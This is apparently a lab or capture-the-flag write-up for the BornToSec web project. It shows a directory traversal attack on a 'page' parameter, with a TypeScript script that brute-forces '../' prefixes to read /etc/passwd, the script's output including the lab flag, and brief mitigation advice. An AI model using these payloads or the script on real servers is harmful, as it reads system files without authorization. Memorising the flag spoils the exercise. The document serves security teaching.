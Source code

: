 # Directory traversal breach

## How we found the breach

Sources:

[portswigger →](https://portswigger.net/web-security/file-path-traversal)

[owasp →](https://owasp.org/www-community/attacks/Path_Traversal#:~:text=Cookie%3A%20TEMPLATE%3D../../../../../../../../../etc/passwd)

[infosecinstitute →](https://resources.infosecinstitute.com/topic/php-lab-file-inclusion-attacks/)

From the website's home page, after pressing the `Sign In` button we're redirected to `http://IP/?page=signin`.

Depending on how the server handles the params parsing we could pass any filename containing absolute paths to other file from the server file system.

A commonly hacked sensitive file is the `/etc/passwd` containing a trace of every computer registered user.

[More information on /etc/passwd →](https://www.ibm.com/docs/bg/aix/7.2?topic=passwords-using-etcpasswd-file)

### Testing the /etc/passwd access

By hitting `http://IP/?page=/etc/passwd` the server returns a page displaying an alert modal containing the label `WTF`:

```html
<script>alert('Wtf ?');</script><!DOCTYPE HTML>
<html>
	<head>
		<title>BornToSec - Web Section</title>
		<meta http-equiv="content-type" content="text/html; charset=utf-8" />
		<meta name="description" content="" />
		<meta name="keywords" content="" />
		<!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->
		<script src="js/jquery.min.js"></script>
		<script src="js/skel.min.js"></script>
		<script src="js/skel-layers.min.js"></script>
		<script 
```

We can see that the server appends a script tag at the beginning of the page.

We need to dig deeper, considering that the served page could be located recursively anywhere in folders.

The required file path could have infinite number of `..`, this is why we'll need to code a small tool.

### The script

The following script will download the returned page for any `../<...>/../etc/passwd` combination until he found within the first script tag the string `flag`.

Note: This script assumes that the server will send back the flag in the first script tag, and even more that the flag will be displayed using the `flag` appellation.

```ts
// @ts-check
import got from 'got'
import * as cheerio from 'cheerio'

const searchedFile = `/etc/passwd`
const baseUrl = `http://192.168.56.101/?page=`

async function traverseDirectory(query) {
    const url = baseUrl + query;
    const htmlPage = await got(url).text()

    const $ = cheerio.load(htmlPage)
    const firstScriptTag = $('script').first().text();

    if (firstScriptTag.match(/flag/)) {
        console.log(firstScriptTag)
        return
    } else {
        console.log(firstScriptTag)
        const newQuery = `../${query}`
        return traverseDirectory(newQuery)
    }
}

await traverseDirectory(searchedFile)
```

By running the script we get the below output:

```bash
node script.js 

http://192.168.56.101/?page=../etc/passwd
alert('Wtf ?');
http://192.168.56.101/?page=../../etc/passwd
alert('Wrong..');
http://192.168.56.101/?page=../../../etc/passwd
alert('Nope..');
http://192.168.56.101/?page=../../../../etc/passwd
alert('Almost.');
http://192.168.56.101/?page=../../../../../etc/passwd
alert('Still nope..');
http://192.168.56.101/?page=../../../../../../etc/passwd
alert('Nope..');
http://192.168.56.101/?page=../../../../../../../etc/passwd
alert('Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 ');
```

From the output we can see that passing the query `../../../../../../../etc/passwd` returns a flag!

## How to exploit the breach

By being able to browse the server file system the hacker could steal any kind of sensitive information. He could also be able to execute previously uploaded script inside the server file tree.

[See file upload breach →](../../php_script_as_jpg_metadata_file_upload_breach/Ressources/README.md)

## How to avoid the breach

The solutions to avoid this breach are quite similar to those for [Redirect security breach](../../query_param_driving_redirection/Ressources/README.md). The server should not build a path to local filesystem with user-supplied input.

If it's necessary for the application to allow users to access files on the filesystem of the server, the server should validate the path sent by the user, to only allow access to authorized directories.
